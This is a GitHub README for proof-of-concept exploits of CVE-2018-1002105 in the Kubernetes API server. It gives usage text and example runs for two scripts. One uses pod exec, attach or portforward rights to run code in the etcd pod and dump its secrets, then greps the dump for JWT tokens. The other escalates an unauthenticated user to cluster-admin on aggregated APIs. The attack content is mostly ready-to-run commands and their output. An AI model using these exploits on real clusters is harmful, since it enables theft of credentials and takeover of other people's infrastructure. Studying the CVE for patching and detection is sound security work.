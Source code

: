# CVE-2018-1002105 PoC

* [Authenticated PoC](#authenticated-poc)
    * [Demo](#demo)
    * [Usage](#usage)
* [Unauthenticated PoC](#unauthenticated-poc)
    * [Demo](#demo-1)
    * [Usage](#usage-1)


## Authenticated PoC
Proof-of-Concept exploit for CVE-2018-1002105. The current exploit requires `create` and `get` privileges on `pods` and `pods/exec`. Support has been added for `portforward` and `attach`, which require similar permissions. 

The current PoC dumps the secrets from the default `etcd-kubernetes` pod.

### Demo
The PoC in action:

[![asciicast](https://asciinema.org/a/kubSrehAf14K7MQ9aZw2RpCYd.svg)](https://asciinema.org/a/kubSrehAf14K7MQ9aZw2RpCYd)

### Usage

```bash
usage: poc.py [-h] --target TARGET --jwt TOKEN [--namespace NAMESPACE] --pod
              POD --method {exec,portforward,attach}
              [--privileged-namespace PNAMESPACE] [--privileged-pod PPOD]
              [--container CONTAINER] [--command COMMAND]
              [--filename FILENAME]

PoC for CVE-2018-1002105.

optional arguments:
  -h, --help            show this help message and exit

required arguments:
  --target TARGET, -t TARGET
                        API server target:port
  --jwt TOKEN, -j TOKEN
                        JWT token for service account
  --namespace NAMESPACE, -n NAMESPACE
                        Namespace with method access
  --pod POD, -p POD     Pod with method access
  --method {exec,portforward,attach}, -m {exec,portforward,attach}

optional arguments:
  --privileged-namespace PNAMESPACE, -s PNAMESPACE
                        Target namespace
  --privileged-pod PPOD, -e PPOD
                        Target privileged pod
  --container CONTAINER, -c CONTAINER
                        Target container
  --command COMMAND, -x COMMAND
                        Command to execute
  --filename FILENAME, -f FILENAME
                        File to save output to

```

Example:

```bash
$ ./poc.py -t 10.0.2.15:6443 --jwt [token] -p [pod] -f etcd.out -m attach
[*] Building pipe using attach...
[+] Pipe opened :D
[*] Attempting code exec on etcd-kubernetes/etcd
[*] Writing output to etcd.out ....
[+] Done!
```

Check for tokens:

```bash
$ grep -air eyJ etcd.db
```

## Unauthenticated PoC
The unauthenticated PoC allows privilege escalation within the context of the exposed API. Depending on the functionalities of the API it might be possible to get code execution on pods. This demo currently exploits the bug to gain cluster-admin rights on the `servicecatalog.k8s.io` API. This exploit should also work for `metrics.k8s.io` or any API exposed through the aggregated layer.

### Demo
The PoC in action:

[![asciicast](https://asciinema.org/a/TjbO5p1JJN0dnNSSWhrcopn9e.svg)](https://asciinema.org/a/TjbO5p1JJN0dnNSSWhrcopn9e)

### Usage

```bash
usage: unauth_poc.py [-h] --target TARGET [--api-base BASE]
                     [--api-target TARGET_API] [--api-version VERSION]
                     [--json] [--filename FILENAME]

Unauthenticated PoC for CVE-2018-1002105

optional arguments:
  -h, --help            show this help message and exit

required arguments:
  --target TARGET, -t TARGET
                        API server target:port
  --api-base BASE, -b BASE
                        Target API name i.e. "servicecatalog.k8s.io"
  --api-target TARGET_API, -u TARGET_API
                        API to access i.e. "clusterservicebrokers"

optional arguments:
  --api-version VERSION, -a VERSION
                        API version to use i.e. "v1beta1"
  --json, -j            Print json output
  --filename FILENAME, -f FILENAME
                        File to save output to
```

Example:

```bash
$ ./unauth_poc.py -t 10.0.2.15:6443 --json -f api.out
[*] Building pipe ...
[+] Pipe opened :D
[*] Attempting to access url
[+] Pipe opened :D
[*] Writing output to api.out ....
[+] Done!

```
